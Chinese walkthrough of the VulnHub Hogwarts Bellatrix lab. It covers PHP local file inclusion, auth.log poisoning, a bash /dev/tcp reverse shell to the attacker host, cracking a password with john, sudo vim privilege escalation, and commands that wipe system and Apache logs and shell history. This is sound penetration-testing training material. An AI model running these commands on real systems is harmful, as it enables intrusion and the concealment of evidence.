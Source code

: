 # 前言

靶机：`hotwarts-dobby`，ip地址为`192.168.1.69`

攻击：`kali`，ip地址为`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`扫描发现主机

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\1.jpg)

# 信息收集

## 使用nmap扫描端口

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\2.jpg)

## 网站信息探测

访问80端口，发现界面显示一串字符，观察其规律，最后有`.php`，可能是一个文件

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\3.jpg)

查看页面源代码，可以看到给出几个信息点，其中一句话中大概意思是，这次在源代码界面中没有东西，或许我已经告诉你一个目录，`.php`文件

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\4.jpg)

最终去重后，发现为一个`php`文件`ikilledsiriusblack.php`

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\5.jpg)

# 漏洞寻找

根据前面的页面源代码查询中，发现有一个文件包含，参数为`file`，那么测试是否可行，尝试包含文件`/etc/passwd`，发现可以，并发现一个用户`lestrange`，只是，其采用的是`rbash`

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\6.jpg)

测试发现，只是本地文件包含，并且`/etc/shadow`无权限

再次尝试对网站进行目录爆破，不过并没有东西产出

那么尝试使用`ffuf`配合`linux`的一些关键目录文件进行测试，观察有哪些可以访问

```shell
ffuf -c -w /usr/share/wordlists/linux_file.txt -u http://192.168.1.69/ikilledsiriusblack.php?file=FUZZ -fs 1728,0 
# -fs是过滤一些特定字节的网页，1728是其网站的默认字节
#这里的字典可以去github上下载一个
```

发现日志文件`auth.log`可以访问，尝试进行污染，因为该文件中在进行`ssh`身份认证时，会记录用户名及相关信息，所需要做的就是把用户名改成一段`php`代码

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\7.jpg)

# 漏洞利用

然后尝试进行代码注入

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\8.jpg)

这时候大概率已经注入成功，可以进行查看，一般都是在文件的最后位置，结合前面的信息，一般登录失败会把用户也显示，但是php作为脚本语言，并不会直接显示，判定，已经成功，记录在文件中了

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\9.jpg)

那么尝试利用注入的代码，注入的代码可用

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\10.jpg)

# 反弹shell

尝试进行一个bash反弹，获取终端

```shell
/bin/bash-c 'bash -i >& /dev/tcp/192.168.1.16/1234 >&1'
#这里最好对该语句进行URL编码处理
```

先在`kali`中使用`nc`开启一个监听，浏览器执行上面的语句后就会在`kali`中反弹成功

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\11.jpg)

然后习惯性的查看当前目录下的文件，意外发现一个`root`所有者的目录，并且还可以查看，而且还是进行编码处理的名称

解码发现名称是`secret`，那就值得关注，进入到该目录，发现一个文件，查看后，发现是用户`lestrange`的hash

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\12.jpg)

# 提权

## 水平提权至lestrange

那就简单了，这里可以直接进行hash破解，不过这里还是复习一下`unshadow`的使用，查看`/etc/passwd`中的`lestrange`，然后复制到`kali`中的一个文件，并把上面的hash也都复制到一个文件，使用`unshadow`整合在一起后，使用`john`爆破

这里需要注意，在查看目录是尽量使用`ls -al`，因为我这里就是因为使用`kali`中的字典进行爆破，但是长时间没效果，然后再次寻找的时候，发现提供了一个字典

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\13.jpg)

复制该文件的内容，或者下载，怎么都行，只要把内容复制到`kali`中，然后使用`john`破解，发现密码`ihateharrypotter`

```shell
#复制文件/etc/passwd内容到kali中的user文件
#复制文件Swordofgryffindor内容到kali中的pass文件
#复制文件字典.sercret.dic内容到kali中的word.txt文件
#使用unshadow整合两个文件到userpass
unshadow user pass > userpass
john userpass --wordlist=word.txt 
```

这里图片中出现两次`john`是显示问题

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\14.jpg)

使用用户名`lestrange`和密码`ihateharrypotter`登录`ssh`

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\15.jpg)

查看当前目录下的文件，发现`.bash_history`，查看其内容

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\16.jpg)

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\17.jpg)

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\18.jpg)

## 垂直提权至root

根据上面的历史命令记录，可能存在`sudo`提权，所以就不再使用`find`寻找具有SUID权限文件，直接`sudo -l`

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\19.jpg)

发现`vim`，并且对应之前命令历史记录中的语句，可以直接使用，或者查看网站`gtfobins.github.io`中的方式

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\20.jpg)

使用命令`sudo vim -c ':!/bin/sh'`提权，成功至`root`

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\21.jpg)

并且有个`script.sh`脚本，查看发现原来是更改`auth.log`权限的

![](D:\stu\vulnhub\Hogwarts靶场\pic-bellatrix\22.jpg)

# 清理痕迹

日志清理，因为这次主要就是`auth.log`日志文件，所以要好好清理

```shell
sed -i "/192.168.1.16/d" /var/log/auth.log
echo > /var/log/btmp
echo > /var/log/faillog
echo > /var/log/lastlog
echo > /var/log/wtmp
echo > /var/log/apache2/access.log
echo > /var/log/apache2/error.log
```

历史命令记录

```shell
history -r 
history -c
```

# 总结

该靶场考察以下几点：

1. 对于文件的发现，发现到的都要测试一下
2. php语言的文件包含，此处使用的是`include`，包含时，会执行其文件
3. 对于`linux`中的一些文件如何配合文件包含，这里就是身份认证日志文件`auth.log`，因为用户名是可控的，所以传入了脚本语言，导致造成危害
4. 对于常见的提权，可以通过查看命令历史记录寻找其中可利用的点，或者利用`suid`或者`sudo`等提权









